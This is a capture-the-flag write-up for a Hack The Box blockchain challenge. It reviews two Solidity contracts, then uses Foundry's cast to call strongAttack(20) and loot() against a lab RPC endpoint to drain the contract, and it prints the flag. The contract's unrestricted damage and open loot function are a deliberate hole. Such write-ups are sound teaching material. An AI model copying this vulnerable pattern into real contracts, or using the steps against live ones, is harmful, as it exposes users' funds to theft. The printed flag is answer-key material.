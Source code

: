 # Survival of the Fittest

### CHALLENGE DESCRIPTION
**_Alex had always dreamed of becoming a warrior, but she wasn't particularly skilled. When the opportunity arose to join a group of seasoned warriors on a quest to a mysterious island filled with real-life monsters, she hesitated. But the thought of facing down fearsome beasts and emerging victorious was too tempting to resist, and she reluctantly agreed to join the group. As they made their way through the dense, overgrown forests of the island, Alex kept her senses sharp, always alert for the slightest sign of danger. But as she crept through the underbrush, sword drawn and ready, she was startled by a sudden movement ahead of her. She froze, heart pounding in her chest as she realized that she was face to face with her first monster._**


## Solution

**STEP 1: Code reviewing**
 
We're given 2 Solidity files:
 
>**`Setup.sol`**

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Creature} from "./Creature.sol";

contract Setup {
    Creature public immutable TARGET;

    constructor() payable {
        require(msg.value == 1 ether);
        TARGET = new Creature{value: 10}();
    }
    
    function isSolved() public view returns (bool) {
        return address(TARGET).balance == 0;
    }
}
```

>**`Creature.sol`**

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Creature {
    
    uint256 public lifePoints;
    address public aggro;

    constructor() payable {
        lifePoints = 20;
    }

    function strongAttack(uint256 _damage) external{
        _dealDamage(_damage);
    }
    
    function punch() external {
        _dealDamage(1);
    }

    function loot() external {
        require(lifePoints == 0, "Creature is still alive!");
        payable(msg.sender).transfer(address(this).balance);
    }

    function _dealDamage(uint256 _damage) internal {
        aggro = msg.sender;
        lifePoints -= _damage;
    }
}
```
To take the flag we should defeat our enemies with a lifePoints of 20. We have 2 options: `punch()` and `stringAttack(uint256 _damage)`. 

**STEP 2: Checking website**

Meeting our enemies ;)

![image](https://github.com/luvranse/web3/assets/46570641/2a64b0db-e3be-4682-a6ee-9a951051de1f)

Also you can check guide in `docs`.

![image](https://github.com/luvranse/web3/assets/46570641/1bbf0712-2ede-4a15-a45e-1533e63e4455)

Check the `connections` to find needed address `TargetAddress` and key `PrivateKey`.

![image](https://github.com/luvranse/web3/assets/46570641/999be50d-3c52-4199-a951-ca6916d8bc11)

**STEP 3: The Battle**

To interact with blockchain on /rpc endpoint we gonna use `cast`.

Let's fight:
```
cast send --rpc-url http://IP:PORT/rpc --private-key PRIVATE_KEY TARGET_ADDRESS "strongAttack(uint256)" 20
```
![image](https://github.com/luvranse/web3/assets/46570641/2f8c717f-f6d8-40aa-bfab-6b2726d41fb0)

After defeating the enemies, we can collect the loot.
```
cast send --rpc-url http://IP:PORT/rpc --private-key PRIVATE_KEY TARGET_ADDRESS "loot()"
```
![image](https://github.com/luvranse/web3/assets/46570641/7c18c04b-7c2a-4594-aa12-ef656168bf36)

Now we can get our flag. Congratz!
![image](https://github.com/luvranse/web3/assets/46570641/60e8686c-59c2-4234-a216-edbb2ff97027)

### FLAG
```
HTB{g0t_y0u2_f1r5t_b100d}
```
